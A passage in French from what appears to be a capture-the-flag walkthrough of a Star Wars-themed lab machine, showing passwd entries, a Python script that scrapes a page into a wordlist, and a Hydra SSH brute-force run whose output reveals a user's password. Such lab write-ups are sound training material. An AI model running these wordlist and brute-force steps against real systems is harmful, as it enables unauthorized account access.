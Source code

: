 Sur le système il y a deux autres utilisateurs :

```
skywalker:x:1001:1001::/home/skywalker:/bin/bash
Darth:x:1002:1002::/home/Darth:/bin/bash
```

Il y a toujours cette référence à _CeWL_, un outil qui extrait les mots d'une page :

```console
han@starwars:~/.secrets$ cat note.txt 
Anakin is a cewl kid.
```

J'ai décidé d'appliquer ça à la page de charabia, mais en utilisant un code Python maison :

```python
import string

import requests
from bs4 import BeautifulSoup

def extract_words(text):
    # Remove punctuation marks
    text = text.translate(str.maketrans('', '', string.punctuation))
    # Split into words
    words = text.split()
    return words

response = requests.get("http://192.168.56.199/r2d2")
content = BeautifulSoup(response.text, "html.parser").get_text()
words = sorted(set(extract_words(content)))
for word in words:
    print(word)
```

## Utilise la force brute

Hydra trouve un match pour le compte `skywalker` :

```console
$ hydra -L users.txt -P words.txt ssh://192.168.56.199
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 11:29:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1074 login tries (l:3/p:358), ~68 tries per task
[DATA] attacking ssh://192.168.56.199:22/
[STATUS] 122.00 tries/min, 122 tries in 00:01h, 954 to do in 00:08h, 14 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 780 to do in 00:08h, 14 active
[22][ssh] host: 192.168.56.199   login: skywalker   password: tatooine
[STATUS] 105.29 tries/min, 737 tries in 00:07h, 339 to do in 00:04h, 14 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 11:40:55
```
